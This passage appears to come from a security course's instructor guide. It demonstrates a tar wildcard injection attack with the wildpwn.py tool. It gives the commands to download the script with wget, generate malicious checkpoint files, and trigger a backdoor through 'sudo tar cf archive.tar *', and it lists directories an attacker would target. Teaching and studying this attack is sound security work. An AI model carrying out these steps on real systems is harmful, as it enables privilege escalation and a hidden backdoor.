         - `cd ~/Documents/exploit_demo`

        - This is the directory to which the attacker would download the `wildpwn.py` program.

2. Download the script with `wget`.

    - Then, run `ls -l` to display that the `wildpwn.py` program is in this directory.

    - `wget https://raw.githubusercontent.com/localh0t/wildpwn/master/wildpwn.py`

    - `ls -l`

      ```
      -rw-r--r--   1 instructor  instructor   3.6K Dec 19 12:46 wildpwn.py
      ```

3. Type  `python wildpwn.py tar .` and explain that this will create both the malicious script and checkpoint files.

    - Break down the syntax:

      - `python` is used to run Python programs.
      - `wildpwn.py` is the program we’re executing.
      - `tar` tells `wildpwn.py` to create malicious files that will exploit the `tar` command. This is necessary because `wildpwn.py` can exploit other commands as well.
      - The `.` specifies that these files should be created in the current directory.

   - Run the command and display the output:

      - `python wildpwn.py tar .`
      ```  
      [!] selected payload tar

      [*] Done! Now wait for something like: archive.tar * on . Good Luck!
      ```

    - Running `wildpwn.py` has successfully planted all the files needed for an attacker to exploit the system. These malicious files will be executed as soon as an administrator creates a `tar` archive containing them.

4. The script is now listening for someone to use the tar command. Let's archive this directory to activate the script.

    - This step will display how malicious code will execute when an unsuspecting administrator runs the `tar` command with a wildcard character. 

    - Now, use `tar` with a wildcard to create an archive to generate the malicious files: 

       - Run `sudo tar cf archive.tar *`

       - Note that this command is run within the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

   - Getting this exploit to work requires the system administrator to create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.

5. List the contents of our directory to display that our hidden malicious program and checkpoint files have been created.

    - Run: `ls -la` and display the output:
